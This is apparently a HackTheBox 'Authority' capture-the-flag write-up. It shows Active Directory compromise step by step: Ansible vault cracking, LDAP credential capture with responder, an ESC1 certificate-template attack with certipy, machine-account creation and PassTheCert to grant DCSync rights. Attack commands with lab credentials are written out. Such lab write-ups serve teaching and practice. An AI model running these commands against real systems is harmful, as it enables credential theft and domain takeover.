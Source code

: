 # HackTheBox - Authority

## NMAP

```
PORT      STATE SERVICE       VERSION              
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0 
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST                  
|_  Potentially risky methods: TRACE                 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-07 19:35:01Z)                    
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-09-07T19:36:12+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:   d49477106f6b8100e4e19cf2aa40dae1
|_SHA-1: ddedb994b80c83a9db0be7d35853ff8e54c62d0b
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-09-07T19:36:12+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-09-07T19:36:12+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp  open  ssl/https-alt
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_ssl-date: TLS randomness does not represent time
|_http-favicon: Unknown favicon MD5: F588322AAF157D82BB030AF1EFFD8CF9
```

Enumerating smb shares, we'll see two shares, `Development` and `Department Shares`

<img src="https://i.imgur.com/Fqmk1GH.png"/>

From Development shares, we'll get Ansible directory which further has directories for LDAP and ADCS

<img src="https://i.imgur.com/j8iRQ7f.png"/>

So we'll just recursively download all files

<img src="https://i.imgur.com/vuzgCEp.png"/>

From `LDAP/TODO.md` there's a note about changing the admin's LDAP password

<img src="https://i.imgur.com/tIXPBGE.png"/>

We can find the ansible vault encrypted password `PWM/defaults/main.yml`

<img src="https://i.imgur.com/eh8Wm3X.png"/>

To decrypt these, we need the vault password so generating the hash of any of them them with `ansible2john.py `

<img src="https://i.imgur.com/h0Xhexg.png"/>

With john we can crack the hash with the password `!@#$%^&*`

<img src="https://i.imgur.com/RlgEBku.png"/>

<img src="https://i.imgur.com/SD0L0h7.png"/>

The account points towards `PWM` which is is an open source password self-service application for LDAP directories. We can access the application on port 8443 

<img src="https://i.imgur.com/VdQm3No.png"/>

On logging in, it shows an error about not able to reach the ldap directories

<img src="https://i.imgur.com/D4k69zY.png"/>

However we can login to configuration manager

<img src="https://i.imgur.com/hMlGoMs.png"/>

Here we can access the configuration, download the existing configuration and also to upload one as well

<img src="https://i.imgur.com/fsfKHkA.png"/>

We can try adding our own IP to LDAP and run `responder` to see if it's reaching to our host so we may be able to capture the account with which it's authentication on LDAP

<img src="https://i.imgur.com/jMrkVnU.png"/>

After uploading this file, starting responder we'll receive clear text password for `svc_ldap` user

```bash
responder -I tun0 -w -d -v
```

<img src="https://i.imgur.com/4N0NaBk.png"/>

<img src="https://i.imgur.com/Xo6K4z3.png"/>

Through `crackmapexec`, we can verify if this user can read department share

<img src="https://i.imgur.com/BHeWWTx.png"/>
<img src="https://i.imgur.com/3G9qUlz.png"/>

Retrieving these directories recursively but all of these directories were empty

<img src="https://i.imgur.com/efCLits.png"/>

On enumerating users, we don't get to see any users other than administrator and svc_ldap

<img src="https://i.imgur.com/g5x4OXr.png"/>

Since there was ADCS directory, which points to Active Directory Certificate Services, that means that server role might be installed, we can enumerate vulnerable certificate templates with `certipy`

```bash
certipy find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -vulnerable -stdout -dc-ip 10.10.11.222
```

<img src="https://i.imgur.com/jOYPvsl.png"/>
This `CorpVPN` template shows that it has `EnrolleSuppliesSubject` enable meaning that `SAN` (Subject Alternative Name) is enabled which allows to request certificate on behalf other user, in other words impersonating any domain user

`EKU` (Extended Key Usage) is set to `Client Authentication` which defines the purpose of this template which can be used to authenticate on any of domain server and lastly we have the enrollment rights for domain computers allowed which is known as `ESC1 certificate template attack`

If we can add a machine account, we can request for administrator's certificate, so verifying if we have machine quota available

<img src="https://i.imgur.com/1agElo2.png"/>

Quota of 10 is available, adding a machine account with `addcomputer.py` from impacket

```bash
addcomputer.py -method LDAPS -dc-ip 10.10.11.222 -computer-pass P@ass12345 -computer-name UwU authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'
```

<img src="https://i.imgur.com/4GTekZU.png"/>

After adding the machine account, we can request for administrator's certificate

```bash
certipy req -c 'AUTHORITY-CA' -u 'UwU$' -p 'P@ass12345' -template 'CorpVPN' -upn 'administrator' -dc-ip 10.10.11.222
```

<img src="https://i.imgur.com/9xdL9tO.png"/>

On retrieving the NThash it failed with an error `KDC_ERR_PDATA_TYPE_NOSUPP`

<img src="https://i.imgur.com/ef8A7GY.png"/>

The reason we couldn't get the hash through this way is because of DC not supporting the PKINIT authentication which is a pre-authentication allowing to retrieve either TGT or NTHash, reason being certificate doesn't have Smart Card Logon EKU installed, having a read on this article, it's still possible to abuse this since we have the administrator's certificate we can do the following attacks

- Add our created machine account to DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` property to perform resource based delegation `RCBD`
- Modify account's password
- Granting the low privileged user DCSync rights

This can be achieved through PassTheCert https://github.com/AlmondOffSec/PassTheCert/tree/main/Python

The scripts needs the key and certificate separately, through certipy we can extract them

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
certipy cert -pfx administrator.pfx -nocert -out administrator.key
```

<img src="https://i.imgur.com/Ki7mh8Q.png"/>

Here I am going with granting svc_ldap DCSync rights

```bash
python3 /opt/PassTheCert/PassTheCert.py -action modify_user -crt administrator.crt -key administrator.key -target svc_ldap -elevate -domain authority.htb -dc-ip 10.10.11.222
```

<img src="https://i.imgur.com/EASqflD.png"/>

<img src="https://i.imgur.com/kEFwtNi.png"/>
Now logging using `evil-winrm` on WinRM

<img src="https://i.imgur.com/MK1FDIk.png"/>

# References

- https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html?ref=7ms.us
- https://7ms.us/7ms-532-tales-of-pentest-pwnage-part-39/
- https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d
- https://github.com/AlmondOffSec/PassTheCert/tree/main/Python
